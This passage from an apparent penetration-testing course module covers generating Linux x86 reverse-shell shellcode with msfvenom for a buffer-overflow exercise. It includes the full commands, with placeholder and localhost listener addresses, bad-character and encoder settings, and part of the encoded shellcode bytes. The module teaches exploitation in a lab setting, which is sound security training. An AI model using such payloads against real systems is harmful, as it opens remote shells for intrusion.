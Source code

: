 -----

### Generating Shellcode
We already got to know the tool `msfvenom` with which we generated our shellcode's approximate length. Now we can use this tool again to generate the actual shellcode, which makes the CPU of our target system execute the command we want to have.

But before we generate our shellcode, we have to make sure that the individual components and properties match the target system. Therefore we have to pay attention to the following areas:

-   `Architecture`
-   `Platform`
-   `Bad Characters`

#### MSFvenom Syntax

MSFvenom Syntax

```shell-session
Gaurav Raj@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```

#### MSFvenom - Generate Shellcode

MSFvenom - Generate Shellcode

```shell-session
Gaurav Raj@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```

#### Shellcode

Shellcode

```shell-session
Gaurav Raj@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```

Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.
